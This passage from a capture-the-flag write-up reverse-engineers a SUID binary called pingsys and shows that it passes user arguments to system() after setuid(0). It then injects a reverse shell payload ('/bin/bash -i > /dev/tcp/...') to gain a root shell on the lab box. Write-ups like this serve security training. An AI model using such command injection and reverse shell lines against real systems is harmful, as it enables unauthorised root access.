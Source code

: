 ```
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

<br>

Transferring the binary file Locally for a further analysis.
```
[jacob@jacobtheboss /]$ scp /usr/bin/pingsys m3dsec@10.9.123.226:/home/m3dsec/jacobtheboss.thm/files/pingsys
```

[Reverse Engeneering](https://en.wikipedia.org/wiki/Reverse_engineering) the binary shows that its taking arguments from the user.
```nasm
0x00400616   897ddc         mov dword [var_24h], edi    ; argc
0x00400619   488975d0       mov qword [var_30h], rsi    ; argv
```

and droping the user UID to 0 (root)
```nasm
0x004006a5      bf00000000     mov edi, 0
0x004006aa      e861feffff     call sym.imp.setuid
```

Then passing those arguments into system() function for execution.
```nasm
0x004006c3   488b45e0       mov rax, qword [var_20h]
0x004006c7   4889c7         mov rdi, rax
0x004006ca   e8f1fdffff     call sym.imp.system         ; int system(const char *string)
```

we can conclude that the SUID Binary file is vulnerble to [Command injection](https://owasp.org/www-community/attacks/Command_Injection).


<br>

<h2 id="ROOT-Privilege-escalation">ROOT - Privilege escalation</h2>

we can easly spawn a reverse shell, by injecting our payload in the arguments.

```
[jacob@jacobtheboss /]$ /usr/bin/pingsys '127.0.0.1;/bin/bash -i > /dev/tcp/10.9.123.226/9991 0>&1 2>&1'
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.031 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.017/0.028/0.033/0.007 ms
```
